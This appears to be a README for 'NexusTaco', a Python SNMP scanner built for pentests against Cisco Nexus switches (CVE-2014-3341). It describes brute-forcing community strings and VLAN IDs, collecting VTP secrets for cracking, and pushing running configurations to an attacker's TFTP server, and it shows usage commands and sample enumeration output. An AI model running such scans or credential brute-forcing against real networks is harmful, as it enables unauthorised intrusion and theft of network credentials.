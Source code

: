 snmpvlan
CVE ID: CVE-2014-3341

Cisco Bug ID: CSCup85616

Strings.txt Taken from https://fuzzdb.googlecode.com/svn-history/r127/trunk/wordlists-misc/wordlist-common-snmp-community-strings.txt

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family).

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:

*Finds Nexus switches specifically since they seem to reply to bogus community strings

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground)

**Files and folders

**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)

**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.

TODO:

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)

*Show logged in users

*Disable snmp traps

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).

*Use getopt …..

*Router reload over snmp just for evilness.

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100

Thanks nmap for the ip list

Finding vulnerable switches

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured

Host: x.x.x.x has VlanID 2 Configured

Host: x.x.x.x has VlanID 3 Configured

Host: x.x.x.x has VlanID 4 Configured

Host: x.x.x.x has VlanID 5 Configured

Host: x.x.x.x has VlanID 6 Configured

Host: x.x.x.x has VlanID 7 Configured

Host: x.x.x.x has VlanID 8 Configured

Host: x.x.x.x has VlanID 10 Configured

Host: x.x.x.x has VlanID 31 Configured

Host: x.x.x.x has VlanID 32 Configured

Host: x.x.x.x has VlanID 33 Configured

Host: x.x.x.x has VlanID 34 Configured

Host: x.x.x.x has VlanID 35 Configured

Host: x.x.x.x has VlanID 40 Configured

Host: x.x.x.x has VlanID 64 Configured

Host: x.x.x.x has VlanID 65 Configured

Host: x.x.x.x has VlanID 97 Configured

Host: x.x.x.x has VlanID 98 Configured

Host: x.x.x.x has VlanID 99 Configured

Host: x.x.x.x has VlanID 100 Configured

.....